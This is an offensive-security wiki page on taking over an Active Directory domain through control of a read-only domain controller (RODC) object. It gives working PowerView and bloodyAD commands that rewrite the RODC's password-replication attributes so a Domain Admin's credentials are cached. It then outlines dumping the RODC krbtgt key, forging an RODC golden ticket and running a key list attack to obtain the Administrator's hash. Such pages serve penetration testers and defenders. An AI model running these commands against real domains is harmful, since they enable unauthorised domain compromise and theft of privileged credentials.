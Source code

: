 # Rights on RODC object

With administrative control over the [RODC](../builtins/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

> [!TIP]
> For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:
> 
> * `GenericWrite`
> * `GenericAll` / `FullControl`
> * `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
> * `Owns` (c.f. `WriteDacl`)
> * `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
> * `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.

::: tabs

=== UNIX-like

From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.


```bash
powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
```
```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup

```


Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Get original msDS-RevealOnDemandGroup values 
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

# Add the previous value plus the admin account
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


=== Windows

From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


:::


## Resources

[https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06)
